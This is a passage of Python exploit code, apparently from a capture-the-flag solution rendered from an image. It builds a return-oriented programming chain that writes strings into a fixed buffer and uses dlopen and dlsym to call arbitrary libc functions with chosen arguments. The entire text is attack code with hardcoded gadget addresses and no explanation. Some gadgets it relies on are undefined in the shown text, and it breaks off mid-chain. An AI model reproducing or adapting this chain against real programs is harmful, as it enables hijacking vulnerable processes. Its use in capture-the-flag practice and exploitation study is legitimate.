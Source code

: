 ```python
pop_r12 = 0x4007f0
pop_edi = 0x400800
pop_rbx = 0x400759

dlopen = 0x400630

dlsym_with_call = 0x400679
string_libc     = 0x400469
symbol_buffer   = 0x600d00

buffer_data = [0] * 0x100

pack    = lambda bytes: u32(flat(bytes, word_size=8))
unpack  = lambda n: map(ord, ('%08x' % n)[-8:].decode('hex')[::-1])

# store a string to symbol_buffer + offset
def make_string(s, offset=0):
    global rop
    if not s.endswith('\x00'): s += '\x00'

    for i in xrange(len(s)):
        addr = symbol_buffer + offset + i
        diff = (ord(s[i]) - (buffer_data[offset + i])) % 256
        rop += [
            pop_rax_rbx_rbp,
            addr - 0x5b,    # rax + 0x5b -> addr
            diff,           # rbx = char - buffer[i]
            0xdeadbeef,

            add_dword_rax,  # add dword ptr [rax + 0x5b], ebx
            0xdeadbeef,
        ]
        # update buffer data after "add dword ptr [rax + 0x5b], ebx"
        buffer_data[offset + i:offset + i + 4] = unpack(pack(
            buffer_data[offset + i:offset + i + 4]) + diff)

# call function "func" with args[0:2], 2 args only
def call_func(func, args):
    global rop
    make_string(func)   # save "func" string for dlsym
    rop += [
        pop_edi,
        0xdeadbeef, 0xdeadbeef, 0xdeadbeef,
        0xdeadbeef, 0xdeadbeef, 0xdeadbeef,
        string_libc,    # rdi -> 'libc.so.6'

        pop_esi,
        0xdeadbeef, 0xdeadbeef, 0xdeadbeef,
        0xdeadbeef, 0xdeadbeef,
        2,              # rsi -> 2
        0xdeadbeef,

        dlopen,         # rax = dlopen('libc.so.6', 2)

        pop_rbx,
        args[0],        # rbx -> args[0]
        0xdeadbeef,

        pop_r12,
        0xdeadbeef, 0xdeadbeef, 0xdeadbeef,
        args[1],        # r12 -> argv[1]
        0xdeadbeef, 0xdeadbeef, 0xdeadbeef,

```